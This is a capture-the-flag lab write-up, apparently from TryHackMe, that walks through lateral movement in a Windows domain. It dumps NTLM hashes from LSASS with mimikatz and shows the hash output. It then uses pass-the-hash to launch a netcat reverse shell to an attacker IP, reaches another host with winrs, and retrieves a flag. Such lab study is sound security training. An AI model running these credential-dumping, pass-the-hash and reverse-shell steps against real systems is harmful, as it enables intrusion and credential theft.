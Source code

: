 1. Extracting NTLM hashes from LSASS memory

```
.\mimikatz.exe 


mimikatz # privilege::debug
mimikatz # token::elevate
mimikatz # sekurlsa::msv 
```

This outputs us a lot of NTLM hashes, since our task says we need to perform those actions against `t1_toby.beck`, we only need his hash:

```
Authentication Id : 0 ; 565994 (00000000:0008a2ea)
Session           : RemoteInteractive from 3
User Name         : t1_toby.beck5
Domain            : ZA
Logon Server      : THMDC
Logon Time        : 5/16/2025 7:41:10 PM
SID               : S-1-5-21-3330634377-1326264276-632209373-4620
        msv :
         [00000003] Primary
         * Username : t1_toby.beck5
         * Domain   : ZA
         * NTLM     : 533f1bd576caa912bdb9da284bbc60fe
         * SHA1     : 8a65216442debb62a3258eea4fbcbadea40ccc38
         * DPAPI    : 0537b9105954f5d1d1bc2f1763d86fd6
```

There we go, we can now get ourselves a shell:

```
mimikatz # token::revert
mimikatz # sekurlsa::pth /user:t1_toby.beck /domain:za.tryhackme.com /ntlm:533f1bd576caa912bdb9da284bbc60fe /run:"C:\tools\nc64.exe -e cmd.exe IP 4444
```

If we had our listener ready, we can see the connection:

![[Pasted image 20250516144946.png]]

Now, we need to do:

```
winrs.exe -r:thmiis.za.tryhackme.com cmd.exe
```

If we check the hostname:

![[Pasted image 20250516145407.png]]

Nice, let's get our flag:

```
C:\Users\t1_toby.beck>C:\Users\t1_toby.beck\Desktop\Flag.exe
THM{NO_PASSWORD_NEEDED}
```
